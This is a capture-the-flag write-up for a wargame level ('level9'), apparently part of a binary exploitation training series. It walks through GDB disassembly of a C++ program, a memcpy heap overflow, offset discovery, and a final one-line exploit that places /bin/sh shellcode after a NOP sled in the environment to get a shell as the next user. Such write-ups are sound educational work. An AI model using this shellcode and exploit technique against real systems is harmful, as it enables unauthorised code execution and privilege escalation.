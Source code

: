 # Level9

First step - testing the program

	$ ./level9
	$ ./level9 coucou
	$ ./level9 coucou coucou

Nothing

Start in GDB

	(gdb-peda)$ pdisas main
	Dump of assembler code for function main:
	   0x080485f4 <+0>:		push   ebp
	   0x080485f5 <+1>:		mov    ebp,esp
	   0x080485f7 <+3>:		push   ebx
	   0x080485f8 <+4>:		and    esp,0xfffffff0
	   0x080485fb <+7>:		sub    esp,0x20
	   0x080485fe <+10>:	cmp    DWORD PTR [ebp+0x8],0x1
	   0x08048602 <+14>:	jg     0x8048610 <main+28>
	   0x08048604 <+16>:	mov    DWORD PTR [esp],0x1
	   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>
	   0x08048610 <+28>:	mov    DWORD PTR [esp],0x6c
	   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
	   0x0804861c <+40>:	mov    ebx,eax
	   0x0804861e <+42>:	mov    DWORD PTR [esp+0x4],0x5
	   0x08048626 <+50>:	mov    DWORD PTR [esp],ebx
	   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>
	   0x0804862e <+58>:	mov    DWORD PTR [esp+0x1c],ebx
	   0x08048632 <+62>:	mov    DWORD PTR [esp],0x6c
	   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>
	   0x0804863e <+74>:	mov    ebx,eax
	   0x08048640 <+76>:	mov    DWORD PTR [esp+0x4],0x6
	   0x08048648 <+84>:	mov    DWORD PTR [esp],ebx
	   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>
	   0x08048650 <+92>:	mov    DWORD PTR [esp+0x18],ebx
	   0x08048654 <+96>:	mov    eax,DWORD PTR [esp+0x1c]
	   0x08048658 <+100>:	mov    DWORD PTR [esp+0x14],eax
	   0x0804865c <+104>:	mov    eax,DWORD PTR [esp+0x18]
	   0x08048660 <+108>:	mov    DWORD PTR [esp+0x10],eax
	   0x08048664 <+112>:	mov    eax,DWORD PTR [ebp+0xc]
	   0x08048667 <+115>:	add    eax,0x4
	   0x0804866a <+118>:	mov    eax,DWORD PTR [eax]
	   0x0804866c <+120>:	mov    DWORD PTR [esp+0x4],eax
	   0x08048670 <+124>:	mov    eax,DWORD PTR [esp+0x14]
	   0x08048674 <+128>:	mov    DWORD PTR [esp],eax
	   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
	   0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]
	   0x08048680 <+140>:	mov    eax,DWORD PTR [eax]
	   0x08048682 <+142>:	mov    edx,DWORD PTR [eax]
	   0x08048684 <+144>:	mov    eax,DWORD PTR [esp+0x14]
	   0x08048688 <+148>:	mov    DWORD PTR [esp+0x4],eax
	   0x0804868c <+152>:	mov    eax,DWORD PTR [esp+0x10]
	   0x08048690 <+156>:	mov    DWORD PTR [esp],eax
	   0x08048693 <+159>:	call   edx
	   0x08048695 <+161>:	mov    ebx,DWORD PTR [ebp-0x4]
	   0x08048698 <+164>:	leave
	   0x08048699 <+165>:	ret
	End of assembler dump.

It seems to be C++, try to understand the first call "_Znwj" with c++filt to be sure

	$ c++filt _Znwj                                                                     !
	operator new(unsigned int)

It's the builtin new

The program dereference EAX 2 times at main+136 and there is a call on EDX at main+159

Get all the functions

	(gdb) info function
	All defined functions:

	Non-debugging symbols:
	...
	0x08048510  memcpy
	0x08048510  memcpy@plt
	...

There is a memcpy call, we can overflow

Search the offset of the overflow with my scripts

	(gdb) r 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz'
	Starting program: /home/user/level9/level9 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz%'

	Program received signal SIGSEGV, Segmentation fault.
	0x08048682 in main ()

	(gdb) i r
	eax            0x62626262	1650614882
	ecx            0x7a7a7a7a	2054847098
	edx            0x804a0dc	134521052
	ebx            0x804a078	134520952
	esp            0xbffff350	0xbffff350
	ebp            0xbffff378	0xbffff378
	esi            0x0	0
	edi            0x0	0
	eip            0x8048682	0x8048682 <main+142>
	eflags         0x210287	[ CF PF SF IF RF ID ]
	cs             0x73	115
	ss             0x7b	123
	ds             0x7b	123
	es             0x7b	123
	fs             0x0	0
	gs             0x33	51


	./get_offset.py 62626262
	bbbb => offset = 108

We can see the pattern in EAX at the offset 108

We will use this shellcode : 
	
	\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh

We will store the payload in the environnement

Let's see which address EAX dereference for store the address of the nopsled in the env

	   0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]
	   0x08048680 <+140>:	mov    eax,DWORD PTR [eax]
	   0x08048682 <+142>:	mov    edx,DWORD PTR [eax]
	   0x08048684 <+144>:	mov    eax,DWORD PTR [esp+0x14]

Put a breakpoint at main+136, run with my pattern and seewhat's happening step by step

	(gdb) x/x $eax
	0x804a00c:	0x41414141
	(gdb) si
	0x08048680 in main ()
	(gdb) x/x $eax
	0x804a078:	0x62626262
	(gdb) si
	0x08048682 in main ()
	(gdb) x/x $eax
	0x62626262:	Cannot access memory at address 0x62626262

First we have AAAA (41414141) at the address `0x804a00c` offset 0, then bbbb (62626262) at the offset 108 and finally the error

We can understand what we need to do. Write the address of the nopesled at the offset 0 instead of AAAA. And the address of this memory case (0x804a00c) on the offset 108 for be called by EDX

Now, find the address of our payload (without export for not modify the real env)

	$ env -i payload=$(python -c 'print "\x90"*1000+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"') gdb level9 

	(gdb) b main
	Breakpoint 1 at 0x80485f8

	(gdb) r
	Starting program: /home/user/level9/level9 

	Breakpoint 1, 0x080485f8 in main ()
	(gdb) x/200s environ
	....

Choose an address in the nopesled, for example : `0xbffffc63`

Build the exploit!

	python -c 'print "\x63\xfc\xff\xbf"+"B"*104+"\x0c\xa0\x04\x08"'

The final command will be :

	$ env -i payload=$(python -c 'print "\x90"*1000+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"') ./level9 $(python -c 'print "\x63\xfc\xff\xbf"+"B"*104+"\x0c\xa0\x04\x08"')
	$ whoami
	bonus0





